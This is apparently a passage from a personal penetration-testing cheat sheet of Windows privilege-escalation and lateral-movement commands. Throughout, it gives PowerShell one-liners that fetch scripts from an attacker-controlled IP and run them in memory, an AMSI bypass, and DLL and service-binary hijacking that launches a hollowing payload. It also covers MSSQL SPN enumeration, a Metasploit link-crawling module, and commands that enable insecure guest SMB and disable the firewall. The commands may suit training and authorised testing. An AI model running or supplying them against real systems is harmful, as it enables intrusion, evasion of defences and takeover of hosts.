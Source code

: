         //DLL Hijack Example:
            (New-Object System.Net.WebClient).DownloadString('http://%IP%/amsi.txt') | IEX
            (New-Object System.Net.WebClient).DownloadString('http://%IP%/PowerUp.ps1') | IEX
            Write-HijackDll -OutputFile 'C:\Users\ted\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll' -Command 'calc.exe'
            shutdown /r /t 0 /f
            
    //*##Manual Service Hijacking Example:
        cmd /c sc config SNMPTRAP binPath= "cmd.exe /c ping -n 2 192.168.49.121"
        cmd /c sc config SNMPTRAP binPath= "cmd.exe /c c:\windows\tasks\Hollow.exe"
        cmd /c sc config SNMPTRAP start= demand
        //might need:
            cmd /c sc failure SNMPTRAP reset= 999999 actions= ""
            cmd /c sc config SNMPTRAP obj= LocalSystem
            cmd /c sc config SNMPTRAP type= own type= interact
        cmd /c sc start SNMPTRAP


    //###WinPEAS:
        //allow color:  REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
        (new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX
        //.exe:  
            $wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://192.168.45.158/winpeas.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("domain wait")
        //.ps1:
            powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.45.158/winpeas.ps1')

    //Crassus.exe - boot log analyzer

    //WES.py:  python3 wes.py systeminfo.txt
    
    //MSSQL Servers?
        //In my domain (prod.corp1.com):  setspn -T prod -Q MSSQLSvc/*
        //In my forest (corp1.com):  setspn -T corp1 -Q MSSQLSvc/*
        //In another forest (corp2.com):  setspn -T corp2 -Q MSSQLSvc/*
        -privesc via linked server RCE
        -privesc/lateral movement via hash disclosure - crack or relay
        SQL.exe
        SQLSMBHash.exe
        SQLRecon.exe
        //Link crawling w/ MSF: use exploit/windows/mssql/mssql_linkcrawler


### Weakening

    //Allow Anonymous SMB Access:
        reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
        (https://learn.microsoft.com/en-US/troubleshoot/windows-server/networking/guest-access-in-smb2-is-disabled-by-default)
        //If GPO:  reg add HKLM\Software\Policies\Microsoft\Windows\LanmanWorkstation\AllowInsecureGuestAuth /t REG_DWORD /d 1 /f

    //Disable Firewall:
        netsh advfirewall set currentprofile state off
